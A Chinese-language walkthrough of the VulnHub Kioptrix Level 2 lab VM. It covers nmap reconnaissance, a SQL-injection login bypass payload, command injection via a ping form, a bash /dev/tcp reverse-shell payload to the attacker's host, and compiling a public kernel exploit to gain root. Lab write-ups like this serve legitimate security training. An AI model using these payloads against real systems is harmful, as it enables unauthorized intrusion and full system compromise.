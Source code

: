 # 环境

来自[Kioptrix_leve_2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

解压之后，`Kioptix Level 1.vmx`修改启动配置，`ethernet0.networkName = "Bridged"`改成`nat`

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240615161156785](image/image-20240615161156785.png)

## 端口收集

```bash
sudo nmap -sT -r -p- 192.168.88.26
```

![image-20240615161246068](image/image-20240615161246068.png)

## 详细服务查询

```bash
sudo nmap -sV -p22,80,111,443,631，804,3306 192.168.88.26
```

攻击面80>443>3306>22

![image-20240615161920349](image/image-20240615161920349.png)

# 测试利用

## getshell1

访问80，发现是一个登录页面，可以考虑一下万能密码，或者爆破，试了一下万能密码`' or 1=1 -- +`，居然成功，说明有Sql注入点，443就没有什么东西

![image-20240615162844529](image/image-20240615162844529.png)

登录进去之后，发现这个执行ping命令的操作，可以考虑远程命令执行，成功

![image-20240615162804727](image/image-20240615162804727.png)

![image-20240615162754412](image/image-20240615162754412.png)

我们尝试反弹shell，payload=`|bash -i >& /dev/tcp/192.168.88.10/8888 0>&1`，进行监听`nc -lvvp 8888`

![image-20240615164311407](image/image-20240615164311407.png)

成功取shell，继续进行提权，首先查看linux系统和内核信息

```bash
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 athlon i386 GNU/Linux
cat /etc/*release
CentOS release 4.5 (Final)

searchsploit kernel 2.6 centos 4
```

![image-20240615210631491](image/image-20240615210631491.png)

找到比较接近的提权脚本，传给靶机进行编译运行，kali使用python开启http服务，靶机进行wget操作

```bash
gcc 9479.c -o exp
chmod 755 exp
./exp
```

成功提权root

![image-20240615211027499](image/image-20240615211027499.png)
